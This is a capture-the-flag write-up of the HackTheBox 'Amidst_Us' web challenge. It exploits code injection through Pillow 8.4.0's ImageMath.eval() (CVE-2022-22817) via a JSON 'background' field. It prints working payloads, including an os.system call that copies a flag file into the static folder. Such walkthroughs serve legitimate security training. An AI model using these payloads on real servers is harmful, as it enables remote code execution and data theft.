

# **Amidst_Us**

Link - [https://app.hackthebox.com/challenges/amidst-us](https://app.hackthebox.com/challenges/amidst-us)

It was a quick and pretty easy challenge from HackTheBox Web category. We had access to the source code, and like always in that case, be able to run own local environment. 

## CHALLENGE DESCRIPTION <br>
The Amidst-Us tribe is a notorious group of sleeper agents for hire. We have plausible reasons to believe they are working with Draeger, so we have to take action to uncover their identities. Ulysses and bonnie have infiltrated their HQ and came across this mysterious portal on one of the unlocked computers. Can you hack into it despite the low visibility and get them access?

Whole app is written in Flask. The main functionality is uploading an image and the program will change its colors to different ones. It is done using the Pillow library in version - **8.4.0**. At the time of writing this, the **newest version** is **9.2.0**. After a few searches, it turns out, that the used version is vulnerable to RCE in the `ImageMath.eval()` function. When you look closer to the source code, this is the very function used in the color change process. So let's move to the exploitation.

The `util.py` file, contains function `make_alpha()`, where the `eval()` function is used:

```python
color = data.get('background', [255,255,255])
...some code here...
alpha = ImageMath.eval(
		f'''float(
			max(
			max(
				max(
				difference1(red_band, {color[0]}),
				difference1(green_band, {color[1]})
				),
				difference1(blue_band, {color[2]})
			),
			max(
				max(
				difference2(red_band, {color[0]}),
				difference2(green_band, {color[1]})
				),
				difference2(blue_band, {color[2]})
			)
			)
		)''',
		difference1=lambda source, color: (source - color) / (255.0 - color),
		difference2=lambda source, color: (color - source) / color,
		red_band=img_bands[0],
		green_band=img_bands[1],
		blue_band=img_bands[2]
	)
```

We have control of the `color` variable because the `background` parameter is given in the request. On the Internet, I found the example of an exploit `ImageMath.eval("exec(exit())")`, so let's try instead of a number in the `background` parameter, send the payload, which should close the current job.

```json
{"image":"//there was a corect image//","background":["exec(exit())",255,255]}
```

Normaly, after putting `string` in to `background` variable, the program return `400 Bad Request`, but with this payload, we did't get any response, so it worked. Now it's time to read the flag. I decided to load the flag to the file in the static folder, and then read it from web browser. My final payload looks as follows:

```python
exec(__import__('os').system('cat ../flag.txt > /app/application/static/flag.txt'))
```
http://\<IP>:\<PORT>/static/flag.txt



## Resources
 - [CVE-2022-22817 in the Pillow](https://github.com/advisories/GHSA-8vj2-vxx3-667w)
 - [Snyk - Pillow vulnerabilities](https://snyk.io/vuln/pip:pillow)